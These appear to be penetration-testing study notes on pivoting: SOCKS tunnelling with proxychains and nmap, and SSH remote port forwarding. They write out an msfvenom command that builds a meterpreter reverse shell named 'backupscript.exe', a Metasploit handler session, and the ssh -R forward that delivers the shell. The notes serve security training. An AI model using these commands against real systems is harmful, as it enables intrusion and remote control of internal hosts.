 * This creates a SOCKS listener on our host, listening on port 9050.
* Subsequently, we can direct traffic over port 9050 and tunnel it to our target through SSH.

We can use `proxychains` to redirect TCP connections through SOCKS proxies.

* View configuration at `/etc/proxychains.conf`.
* Then, we can use `nmap` with `proxychains`, where we can scan an internal subnet through `proxychains`. Note that we can only do a full `TCP connect -sT` scan through `proxychains`. Additionally, `host-alive` checks may not work if ICMP echo requests are blocked (thus the `-Pn` option may need to be used).

Using `proxychains`, we can also use tools like `msfconsole` and `xfreerdp`.

## Remote/Reverse Port Forwarding with SSH

Suppose that we want to create a reverse shell to connect our attack host to an internal host through a pivot host. In this case, the internal host is a Windows machine.

* From the previous section, we can RDP in through the pivot host, but this may not be enough.

Firstly, create a Windows payload using `msfvenom`. In this case, set the listener IP address to the IP address of the pivot host, instead of our attack host:
`msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080`

* Note that we want the pivot host to listen on port 8080, through `https`. We will then aim to forward traffic from port 8080 of the pivot host to a port on our attack host (e.g., 8000).

On our attack host, create a listener on port 8000:

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

Then, transfer our payload to the pivot host through `scp`. Use the Windows machine to download this payload from the pivot host through any method desired (e.g. HTTP).

Once the payload is on the remote target, we can use SSH remote port forwarding to forward connections from the pivot host to our attack host.

* Use the `-R` option to make the pivot host listen to the remote host on port 8080, and forward connections to our listener on port 8000:
  `ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN`
* Use `-v` to have verbose output, and `-N` to not prompt the login shell.

Once the port forward is set up, execute the payload on the remote target. If all is set up correctly, we should see logs from the pivot host, and our reverse `meterpreter` session is created.
